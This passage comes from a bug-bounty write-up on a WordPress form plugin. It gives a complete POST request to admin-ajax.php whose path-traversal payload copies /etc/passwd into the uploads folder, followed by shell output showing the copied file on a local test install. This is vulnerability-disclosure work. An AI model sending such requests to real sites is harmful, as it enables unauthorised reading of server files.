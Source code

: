 Let's try this!

Since we already created a new form during testing the arbitrary file deletion in method `deleteBlukFormEntries`, we'll just send the following POST request:

```http
POST /wp-admin/admin-ajax.php?action=bitforms_duplicate_form_entries&_ajax_nonce=56951b1f2d HTTP/1.1
Host: localhost
Content-Type: text/plain;charset=UTF-8
Content-Length: 94
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=wordpress%7C1724485955%7C3MuslQ6YljdYmnUlWZHpXwkZNaOrPk5joqULpXwVLYr%7C2ed64b58bd1e6545e080831efa73208d7cd7a7d7db74f82d917bf1d084221f56; wp-settings-time-1=1724314921; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=wordpress%7C1724485955%7C3MuslQ6YljdYmnUlWZHpXwkZNaOrPk5joqULpXwVLYr%7Cc3ff3cd5203d9aa8bd10333b517737a257f01a675a5701cfae83a2855c027d65; PHPSESSID=btmj60280414pvpn1970aan8n7

{"formID":"1","entries":["../../../../../../../../../../../../../etc/passwd"]}
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-1/images/Pasted%20image%2020240822202928.png)

```shell
root@9e2f4f189063:/var/www/html# ls -lah wp-content/uploads/bitforms/uploads/1/
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Aug 22 12:29 .
drwxr-xr-x 3 www-data www-data 4.0K Aug 22 11:59 ..
-rw-r--r-- 1 www-data www-data  922 Aug 22 12:29 1
root@9e2f4f189063:/var/www/html# head wp-content/uploads/bitforms/uploads/1/1
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
```